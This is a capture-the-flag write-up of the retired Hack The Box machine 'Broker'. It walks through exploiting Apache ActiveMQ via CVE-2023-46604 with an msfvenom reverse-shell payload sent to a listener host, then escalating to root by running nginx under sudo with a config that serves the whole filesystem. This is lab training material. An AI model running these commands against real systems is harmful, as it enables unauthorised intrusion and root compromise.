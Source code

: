 ```yaml
---
title : Broker
---
```


This is a retired Linux box from Hack The Box.

`Date : 21 Dec 2023 Thursday`

### Table of Content 

1. [Recon](#recon)
2. [Shell as activemq](#shell-as-activemq)
3. [Privilege escalation](#privilege-escalation)


### Recon

#### Nmap 

```
nmap --min-rate 1000 -p- -Pn 10.129.230.87 -oN nmap_tcp.txt
```

Output : 

![Screenshot from 2023-12-21 14-23-15](https://github.com/kris3c/kris3c.github.io/assets/128035061/75531d30-1c01-4798-8f6c-b0cffe8950b7)



So we can see different ports are open on the machine lets start with port 80.

![Screenshot 2023-12-21 at 14-25-41 Apache ActiveMQ](https://github.com/kris3c/kris3c.github.io/assets/128035061/8369e271-641a-44ca-a626-a16848659c28)

so we can see here ActiveMQ is running lets check the version 

Visiting /admin endpoint 

Trying with default credentials 

```
Username: Admin
Password : Admin
```

It worked

![Screenshot 2023-12-21 at 14-29-10 localhost ActiveMQ Console](https://github.com/kris3c/kris3c.github.io/assets/128035061/99b34b74-bdd4-4871-b0e6-6c69a870c53b)

we can see the version of the activemq that is **5.15.15**

### Shell as activemq 

Upon Searching for exploit related to this version i came across this repo: 

[CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)

By following the instruction we can easily get the shell :

```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
```

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
```

```
python3 -m http.server
```

Edit the file poc-linux.xml and adress for the poc-linux.xml 

```
go run main.go -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:$RPORT/poc-linux.xml
```


### Privilege escalation

```
sudo -l 
```

![Screenshot from 2023-12-21 14-37-13](https://github.com/kris3c/kris3c.github.io/assets/128035061/aca8b287-5bc0-4e5a-a830-d9521dea4395)

we can execute the nginx with root privileges so let's start a web server which give is root access to the server on which it is running

```
cat /etc/nginx/nginx.conf | grep -v "/#" 
```

```
cat /etc/nginx/sites-enabled/default 
```

make a file on your system 

```
nano nginx.conf
```

```
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
	worker_connections 768;
}

http {
	server {
    		listen 1337;
    		location / {
    			root /;
    		}
        
      }
}

```

start python server 

```
python -m http.server
```

Download it on the machine in the /dev/shm directory

```
wget http://$RHOST:8000/nginx.conf
```

start the server

```
sudo nginx -c /dev/shm/nginx.conf
```

download the flag :

```
 curl http://localhost:1337/root/root.txt
```
